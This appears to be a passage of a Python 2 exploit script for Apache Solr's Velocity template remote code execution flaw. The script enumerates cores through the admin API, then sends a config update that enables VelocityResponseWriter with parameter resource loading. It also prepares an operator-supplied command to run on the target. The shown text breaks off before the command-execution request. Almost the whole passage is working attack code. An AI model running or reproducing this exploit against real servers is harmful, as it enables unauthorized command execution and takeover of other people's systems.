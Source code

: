     >>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>
    '''
    print banner

    def get_code_name(url):
        if url[-1] == '/':
            url = url[:-1].split('\n')[0]
        else:
            url = url.split('\n')[0]
            
        core_url = url + '/solr/admin/cores?indexInfo=false&wt=json'
        print '[+] Querying Core Name: '+core_url,'\n'
        proxies = {"http":"http://127.0.0.1:8080"}
        try:
            # r = requests.get(core_url,proxies=proxies)
            r = requests.get(core_url)
            if r.status_code == 200 and 'responseHeader' in r.content and 'status' in r.content:
                json_str = json.loads(r.content)
                for i in json_str['status']:
                    core_name_url = url + '/solr/' + i + '/config'
                    print core_name_url
                    update_queryresponsewriter(core_name_url)
            else:
                print "No core name exit!"
        except:
            pass
    def update_queryresponsewriter(core_name_url):
        headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
        'Accept-Language': 'zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3',
        'Accept-Encoding': 'gzip, deflate',
        'Content-Type': 'application/json',
        'Content-Length': '259',
        'Connection': 'close'
        }
        payload = '''
        {
          "update-queryresponsewriter": {
            "startup": "lazy",
            "name": "velocity",
            "class": "solr.VelocityResponseWriter",
            "template.base.dir": "",
            "solrresource.loader.enabled": "true",
            "paramsresource.loader.enabled": "true"
          }
        }'''
        proxies = {"http":"http://127.0.0.1:8080"}
        r = requests.post(core_name_url,headers=headers,data=payload)
        # r = requests.post(core_name_url,headers=headers,data=payload,proxies=proxies)
        if r.status_code == 200 and 'responseHeader' in r.content:
            print "[+] maybe enable Successful!"
            exp_url = core_name_url[:-7]
            cmd = 'whoami'
            cmd = sys.argv[2]
